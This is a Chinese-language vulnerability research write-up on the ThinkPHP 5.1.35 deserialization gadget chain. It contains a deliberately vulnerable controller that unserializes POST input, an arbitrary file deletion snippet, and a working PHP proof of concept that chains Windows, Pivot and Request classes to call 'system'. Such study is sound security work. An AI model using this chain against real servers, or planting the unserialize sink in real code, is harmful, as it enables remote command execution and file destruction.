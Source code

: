 # Thinkphp5.1.x反序列化

## 环境

版本：Thinkphp5.1.35 + php7.3.4 +phpstorm

[避免xdebug断开连接](https://blog.csdn.net/qq_44836237/article/details/122324587)，在phpstudy的`设置`下的vhosts.conf加入如下代码

```
 IPCConnectTimeout 999999
 IPCCommTimeout 999999
 FcgidIOTimeout 999999　　
 FcgidConnectTimeout 999999
```

并且向application/index/controller/index.php中的index方法中添加如下代码：

```php
$str = base64_decode($_POST['payload']);
echo $str;
unserialize($str);
```

目的时构造一个触发反序列化的点。

## 反序列化

`析构函数__destruct()：当对象被销毁时会自动调用。`也是本次漏洞的入口点。
如下是一个简单的流程图：

![image-20220927111459419](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209271115109.png)

其中有几个疑问点：
### 1、第二步中哪里调用了`__toString`方法？
再跟进`Conversion.php`中的`__destruct()`中的`$this->removeFiles();`方法
![image-20220927111952690](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209271119741.png)

`__toString`:把类当作字符串使用时触发。
并且这里的`$filename`是由`$this->files`控制，`$this->files`是可以由我们控制的。
`->`用来引用对象的成员(属性与方法);
同时这里还存在另外一个漏洞点：

#### 删除任意文件

`@unlink`:删除文件

```php
<?php

namespace think\process\pipes;
class Windows
{
    private $files = [];

    public function __construct()
    {
        $this->files = ['0' => 'D:\phpstudy_pro\WWW\ThinkPhp\thinkphp5.1.35\Test.txt'];
    }
}

echo base64_encode(serialize(new Windows()));
```

此刻我们只需要找一个类存在`__toString`并且能够完整的构造整个链子。这时候我们找到了`Conversion.php`。

### 2、如何调用`__call`方法？

跟入`$this->toJson()`再跟入`json_encode($this->toArray(), $options);`的`$this->toArray()`。
着重注意这里：
![image-20220927113251059](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209271132154.png)

这里`$this->append`是可控的。
`=>`：php中=>一般用作数组键名与元素的连接符。
例如：

```php
$arr = array(
'a'=>'123',
'b'=>'456'
);
foreach($arr as $key=>$val){
//$key是数组键名
//$val是数组键名对应的值
}
```

至此能进入`if`语句中。
进入`$this->getRelation`
![image-20220927113841516](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209271138554.png)

`$name`为传入的`$key`。那么这里可以轻松构造，让返回值为空。
接着进入`$this->getAttr`中的`$this->getData($name);`
![image-20220927114504451](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209271145509.png)

`array_key_exists`：不难理解就是一个判断`$name`，也就是传入的`key`是否存在于`$this->data`。
那么这里`$this->data`，我们是可以控制的。可以返回任意值。
回到`Conversion.php`中的`__toArray`。
**$relation->visible($name)**:这里的`$relation`可控，$name可控。只要传入一个存在`__call()`方法并且不存在`visible()`方法，即可完成触发指定类的`__call()`方法。
这里我们找到了`Request.php`

### 为什么`call_user_func_array`不能使用？

进入`Request.php`中的`__call()`方法。

![image-20220927115519645](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209271155688.png)

`$method`为`visible`，但是可以控制`$this->hook`。这里的`$args`已经经过上面的判断这里必须为数组。
**array_unshift**：将`$this`，插入`$args`数组中，并且作为第一个元素。
所以这里不大可能构造出能够执行的命令。
**call_user_func_array**：[这里做了很好的解释](https://php.golaravel.com/function.call-user-func-array.html)，这里也关乎下面调用`Request.php`中`isAjax()`的构造。

### 为什么层层调试找到了isAjax

上面的**call_user_func_array**我们无法执行命令，我们可以寻找**call_user_func**。其也是能通过构造执行命令的。
同样找到了`Request.php`中的`filterValue`
![image-20220927121551996](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209271215068.png)

这里又需要上一张流程图：
![image-20220927122653288](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209271226365.png)

##### isAjax()

![image-20220927122815037](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209271228079.png)

这里可以控制`param()`方法中的`$name`。

##### param

![image-20220927123039251](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209271230391.png)

控制了传入的`input()`方法中的`$data`。

##### input

![image-20220927123311960](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209271233049.png)
跟进一下这里的`$this->getFilter($filter, $default);`
![image-20220927124208821](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209271242889.png)

跟进array_walk_recursive($data, [$this, 'filterValue'], $filter);
相当于调用了本类的filterValue方法，并且传入了data和filter方法。

## poc

```php
<?php

namespace think;
abstract class Model{
    protected $append = [];
    private $data = [];
    function __construct(){
        $this->append = ["xsw6"=>[]];
        $this->data = ["xsw6"=>new Request()];
    }
}

class Request{
    protected $filter;
    protected $hook = [];
    protected $config = ['var_ajax' => '',];

    public function __construct()
    {
        $this->filter = 'system';
        $this->hook = ['visible'=>[$this,"isAjax"]];
    }
}

namespace think\model;

use think\Model;

class Pivot extends Model
{
}

namespace think\process\pipes;

use think\model\Pivot;
use think\Process;
class Windows
{
    private $files;
    public function __construct()
    {
        $this->files = [new Pivot()];
    }
}
echo base64_encode((serialize(new Windows())));


```

同时这里讲一下为什么这么构造。
根据上面的分析我们调用了Conversion.php，但是我们要如何调用它呢？他是个trait并且不能实例化。
[**trait介绍**](https://blog.csdn.net/weixin_42748455/article/details/111168641)
通过理解我们可以知道寻找一个类use了`Conversion.php`即可，于是找到了`Model`类，但是他是个抽象类还是不能实例化，于是找一个继承类就行。于是找到了最终的`Pivot()`
![image-20220929150847679](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209291511491.png)

## 疑问

这里同时还有个疑问：我将poc对应的这个部分

    function __construct(){
        $this->append = ["xsw6"=>[]];
        $this->data = ["xsw6"=>new Request()];
    }
修改成为:

```
    function __construct(){
        $this->append = ["1"=>[]];
        $this->data = ["1"=>new Request()];
    }
```

最后发现触发无法成功。
调试了一下发现，在`调用Conversion.php的__toString`时
![image-20220927133416721](https://cdn.jsdelivr.net/gh/zx-creat/myblog@master/img/202209271334792.png)

获取不到对应的key。导致后续`getData()`中无法存在满足条件的判断，从而抛出异常。
